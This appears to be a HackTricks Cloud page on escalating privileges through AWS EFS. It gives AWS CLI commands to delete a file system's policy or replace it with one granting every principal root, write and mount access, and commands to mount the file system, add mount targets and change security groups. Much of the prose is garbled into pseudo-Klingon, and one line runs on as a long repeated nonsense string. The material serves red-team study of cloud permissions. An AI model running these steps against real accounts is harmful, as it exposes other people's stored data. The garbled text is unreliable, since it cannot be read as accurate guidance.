 # AWS - EFS Privesc

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## EFS

More **info about EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Remember that in order to mount an EFS you need to be in a subnetwork where the EFS is exposed and have access to it (security groups). Is this is happening, by default, you will always be able to mount it, however, if it's protected by IAM policies you need to have the extra permissions mentioned here to access it.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

With any of those permissions an attacker can **change the file system policy** to **give you access** to it, or to just **delete it** so the **default access** is granted.

To delete the policy:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
To change it:

ghItlh:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

**QI'ya'** permission vItlhutlh **EFS** **mount** vaj. QaH **write permission** pagh **ghaH** 'ej 'oH **read access**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
**QIbDajmo'**: `elasticfilesystem:ClientRootAccess` je `elasticfilesystem:ClientWrite` **yIlo'** **filesystem** **mounted** 'ej **access** **root** **filesystem**.

**Qapla'**: **Indirect privesc** **sensitive information** **filesystem** **lo'laHbe'**.

### `elasticfilesystem:CreateMountTarget`

**Subnetwork** **mount target** **EFS** **exists** **attacker** **create** **subnet** **privilege** **one** **just** **could**:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Qa'legh:** Qa'leghvam: Qa'leghvamvam 'ej qa'leghvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvamvam
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Qapla'!** QaD potential: QaD privesc by locating sensitive information in the file system.

<details>

<summary><strong>ghItlh! HackTricks AWS Red Team Expert (htARTE) laH HackTricks</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>ghItlh!</strong></a></summary>

HackTricks vItlhutlh:

* QaD **company advertised in HackTricks** vaj **HackTricks in PDF download** lo'laH [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) qar'a'!
* [**official PEASS & HackTricks swag**](https://peass.creator-spring.com) ghaH **ghItlh**.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) vItlhutlh, **NFTs** (https://opensea.io/collection/the-peass-family) qar'a'!
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) vaj [**telegram group**](https://t.me/peass) **join** vaj **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) vaj [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
